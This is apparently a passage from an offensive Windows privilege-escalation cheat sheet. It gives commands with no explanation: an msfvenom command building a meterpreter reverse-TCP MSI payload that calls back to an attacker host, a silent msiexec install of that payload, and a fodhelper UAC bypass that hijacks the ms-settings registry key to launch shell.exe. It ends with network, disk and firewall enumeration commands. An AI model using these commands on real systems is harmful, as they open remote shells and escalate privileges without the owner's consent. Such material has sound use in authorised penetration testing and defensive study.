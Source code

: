 ``` bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > /root/Desktop/1.msi
```

``` bash
msiexec /quiet /qn /i 1.msi
```

## Bypass UAC registry hijacking 

Check Mandatory Level

``` bash
whoami /groups
```

Run cmd.exe as Administrator to get High Mandatory Level

``` bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

`C:\Windows\System32\fodhelper.exe`

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Users\windows_10_1903_x64\Desktop\shell.exe" /f
```


## Unmounted Disks

``` bash
mountvol
```

## Networking Enumeration

``` bash
ipconfig /all
```

``` bash
route print
```

## Firewall Status and Rules

``` bash
netsh advfirewall show currentprofile
```
